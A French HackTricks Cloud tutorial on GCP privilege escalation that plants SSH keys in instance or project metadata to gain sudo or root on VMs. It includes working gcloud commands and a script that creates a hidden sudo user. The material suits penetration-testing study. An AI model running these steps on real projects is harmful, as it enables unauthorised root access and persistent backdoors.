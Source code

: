 # GCP - Ajouter des métadonnées SSH personnalisées

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez**-moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Modification des métadonnées <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Un attaquant avec les permissions pour **modifier les métadonnées de l'instance** pourrait compromettre/escalader vers un compte de service avec cette permission (qui pourrait être restreint par un scope) :

### **Ajouter des clés SSH aux métadonnées personnalisées**

Les **systèmes Linux** sur GCP exécutent généralement des scripts [Python Linux Guest Environment pour Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). L'un d'eux est le [daemon des comptes](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), qui **interroge périodiquement** le point de terminaison des métadonnées de l'instance pour **détecter les changements dans les clés publiques SSH autorisées**.

**Si une nouvelle clé publique** est détectée, elle sera traitée et **ajoutée à la machine locale**. Selon le format de la clé, elle sera soit ajoutée au fichier `~/.ssh/authorized_keys` d'un **utilisateur existant, soit créera un nouvel utilisateur avec des droits `sudo`**.

Ainsi, si vous pouvez **modifier les métadonnées personnalisées de l'instance** avec votre compte de service, vous pouvez **escalader** vers root sur le système local en **obtenant des droits SSH** sur un compte privilégié. Si vous pouvez modifier **les métadonnées personnalisées du projet**, vous pouvez **escalader** vers root sur **tout système dans le projet GCP actuel** qui exécute le daemon des comptes.

### **Ajouter une clé SSH à un utilisateur privilégié existant**

Commençons par ajouter notre propre clé à un compte existant, car cela fera probablement le moins de bruit.

**Vérifiez l'instance pour les clés SSH existantes**. Choisissez l'un de ces utilisateurs car ils sont susceptibles d'avoir des droits sudo.
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
Recherchez une section comme suit :
```
...
metadata:
fingerprint: QCZfVTIlKgs=
items:
...
- key: ssh-keys
value: |-
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/SQup1eHdeP1qWQedaL64vc7j7hUUtMMvNALmiPfdVTAOIStPmBKx1eN5ozSySm5wFFsMNGXPp2ddlFQB5pYKYQHPwqRJp1CTPpwti+uPA6ZHcz3gJmyGsYNloT61DNdAuZybkpPlpHH0iMaurjhPk0wMQAMJUbWxhZ6TTTrxyDmS5BnO4AgrL2aK+peoZIwq5PLMmikRUyJSv0/cTX93PlQ4H+MtDHIvl9X2Al9JDXQ/Qhm+faui0AnS8usl2VcwLOw7aQRRUgyqbthg+jFAcjOtiuhaHJO9G1Jw8Cp0iy/NE8wT0/tj9smE1oTPhdI+TXMJdcwysgavMCE8FGzZ alice
bob:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2fNZlw22d3mIAcfRV24bmIrOUn8l9qgOGj1LQgOTBPLAVMDAbjrM/98SIa1NainYfPSK4oh/06s7xi5B8IzECrwqfwqX0Z3VbW9oQbnlaBz6AYwgGHE3Fdrbkg/Ew8SZAvvvZ3bCwv0i5s+vWM3ox5SIs7/W4vRQBUB4DIDPtj0nK1d1ibxCa59YA8GdpIf797M0CKQ85DIjOnOrlvJH/qUnZ9fbhaHzlo2aSVyE6/wRMgToZedmc6RzQG2byVxoyyLPovt1rAZOTTONg2f3vu62xVa/PIk4cEtCN3dTNYYf3NxMPRF6HCbknaM9ixmu3ImQ7+vG3M+g9fALhBmmF bob
...
```
Remarquez le **format légèrement inhabituel** des clés publiques - le **nom d'utilisateur** est indiqué au **début** (suivi d'un deux-points) puis à nouveau à la **fin**. Nous devrons respecter ce format. Contrairement à une opération SSH classique, le nom d'utilisateur est absolument important !

**Enregistrez les lignes avec les noms d'utilisateur et les clés dans un nouveau fichier texte** appelé `meta.txt`.

Supposons que nous ciblons l'utilisateur `alice` mentionné ci-dessus. Nous allons **générer une nouvelle clé** pour nous-mêmes de cette manière :
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
Ajoutez votre nouvelle clé publique au fichier `meta.txt` en imitant le format :
```
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/SQup1eHdeP1qWQedaL64vc7j7hUUtMMvNALmiPfdVTAOIStPmBKx1eN5ozSySm5wFFsMNGXPp2ddlFQB5pYKYQHPwqRJp1CTPpwti+uPA6ZHcz3gJmyGsYNloT61DNdAuZybkpPlpHH0iMaurjhPk0wMQAMJUbWxhZ6TTTrxyDmS5BnO4AgrL2aK+peoZIwq5PLMmikRUyJSv0/cTX93PlQ4H+MtDHIvl9X2Al9JDXQ/Qhm+faui0AnS8usl2VcwLOw7aQRRUgyqbthg+jFAcjOtiuhaHJO9G1Jw8Cp0iy/NE8wT0/tj9smE1oTPhdI+TXMJdcwysgavMCE8FGzZ alice
bob:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2fNZlw22d3mIAcfRV24bmIrOUn8l9qgOGj1LQgOTBPLAVMDAbjrM/98SIa1NainYfPSK4oh/06s7xi5B8IzECrwqfwqX0Z3VbW9oQbnlaBz6AYwgGHE3Fdrbkg/Ew8SZAvvvZ3bCwv0i5s+vWM3ox5SIs7/W4vRQBUB4DIDPtj0nK1d1ibxCa59YA8GdpIf797M0CKQ85DIjOnOrlvJH/qUnZ9fbhaHzlo2aSVyE6/wRMgToZedmc6RzQG2byVxoyyLPovt1rAZOTTONg2f3vu62xVa/PIk4cEtCN3dTNYYf3NxMPRF6HCbknaM9ixmu3ImQ7+vG3M+g9fALhBmmF bob
alice:ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDnthNXHxi31LX8PlsGdIF/wlWmI0fPzuMrv7Z6rqNNgDYOuOFTpM1Sx/vfvezJNY+bonAPhJGTRCwAwytXIcW6JoeX5NEJsvEVSAwB1scOSCEAMefl0FyIZ3ZtlcsQ++LpNszzErreckik3aR+7LsA2TCVBjdlPuxh4mvWBhsJAjYS7ojrEAtQsJ0mBSd20yHxZNuh7qqG0JTzJac7n8S5eDacFGWCxQwPnuINeGoacTQ+MWHlbsYbhxnumWRvRiEm7+WOg2vPgwVpMp4sgz0q5r7n/l7YClvh/qfVquQ6bFdpkVaZmkXoaO74Op2Sd7C+MBDITDNZPpXIlZOf4OLb alice
```
Maintenant, vous pouvez **réécrire les métadonnées de clé SSH** pour votre instance avec la commande suivante :
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
Vous pouvez maintenant **accéder à un shell dans le contexte de `alice`** comme suit :
```
lowpriv@instance:~$ ssh -i ./key alice@localhost
alice@instance:~$ sudo id
uid=0(root) gid=0(root) groups=0(root)
```
### **Créer un nouvel utilisateur privilégié et ajouter une clé SSH**

Aucune clé existante trouvée en suivant les étapes ci-dessus ? Personne d'autre d'intéressant dans `/etc/passwd` à cibler ?

Vous pouvez **suivre le même processus** que ci-dessus, mais **inventez simplement un nouveau nom d'utilisateur**. Cet utilisateur sera créé automatiquement et se verra accorder les droits de `sudo`. Scripté, le processus ressemblerait à ceci :
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### Clés SSH au niveau du projet <a href="#sshing-around" id="sshing-around"></a>

En suivant les détails mentionnés dans la section précédente, vous pouvez essayer de compromettre plus de VMs.

Nous pouvons développer cela en [**appliquant des clés SSH au niveau du projet**](https://cloud.google.com/compute/docs/instances/adding-removing-ssh-keys#project-wide), ce qui vous donne la permission de **vous connecter en SSH à un compte privilégié** pour toute instance qui n'a pas explicitement choisi l'option "Bloquer les clés SSH à l'échelle du projet".
```
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
Si vous êtes vraiment audacieux, vous pouvez également taper `gcloud compute ssh [INSTANCE]` pour utiliser votre nom d'utilisateur actuel sur d'autres machines.

# Références
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez**-moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
